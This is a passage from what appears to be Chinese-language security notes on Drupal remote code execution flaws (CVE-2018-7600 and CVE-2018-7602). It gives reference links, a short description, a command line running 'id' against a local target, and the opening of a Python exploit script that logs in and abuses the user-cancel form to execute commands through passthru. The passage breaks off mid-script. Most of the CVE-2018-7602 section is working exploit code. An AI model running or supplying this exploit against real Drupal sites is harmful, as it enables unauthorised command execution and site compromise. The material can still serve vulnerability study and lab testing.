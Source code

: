 ### Ref

- [a2u/CVE-2018-7600 - Github](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)
- [CVE-2018-7600 - cvedetails](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2018-7600)
- [云鼎实验室：Drupal CVE-2018-7600 分析及 PoC 构造 - Seebug](https://paper.seebug.org/567)

## CVE-2018-7602

Drupal 7.x 和 8.x 的多个子系统中存在远程代码执行漏洞。这可能会允许攻击者在 Drupal 站点上利用多个攻击媒介，从而可能导致该站点遭到破坏。该漏洞与 Drupal core - Highly critical - Remote Code Execution - SA-CORE-2018-002 有关。 SA-CORE-2018-002 和此漏洞都在野外被利用。

- [x] Drupal 7.x
- [x] Drupal 8.x

### PoC

```bash hl_lines="1 11"
# "id"为要执行的命令 第一个drupal为用户名 第二个drupal为密码
python3 drupa7-CVE-2018-7602.py -c "id" drupal drupal http://127.0.0.1:8081/
```

```python title="drupa7-CVE-2018-7602.py"
#!/usr/bin/env python3

import requests
import argparse
from bs4 import BeautifulSoup

def get_args():
  parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7602.py",
                    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                    epilog= '''
                    This script will exploit the (CVE-2018-7602) vulnerability in Drupal 7 <= 7.58
                    using an valid account and poisoning the cancel account form (user_cancel_confirm_form)
                    with the 'destination' variable and triggering it with the upload file via ajax (/file/ajax).
                    ''')

  parser.add_argument("user", help="Username")
  parser.add_argument("password", help="Password")
  parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
  parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
  parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
  parser.add_argument("-x", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
  args = parser.parse_args()
  return args

def pwn_target(target, username, password, function, command, proxy):
  requests.packages.urllib3.disable_warnings()
  session = requests.Session()
  proxyConf = {'http': proxy, 'https': proxy}
  try:
    print('[*] Creating a session using the provided credential...')
    get_params = {'q':'user/login'}
    post_params = {'form_id':'user_login', 'name': username, 'pass' : password, 'op':'Log in'}
    print('[*] Finding User ID...')
    session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
    get_params = {'q':'user'}
    r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
    soup = BeautifulSoup(r.text, "html.parser")
    user_id = soup.find('meta', {'property': 'foaf:name'}).get('about')
    if ("?q=" in user_id):
```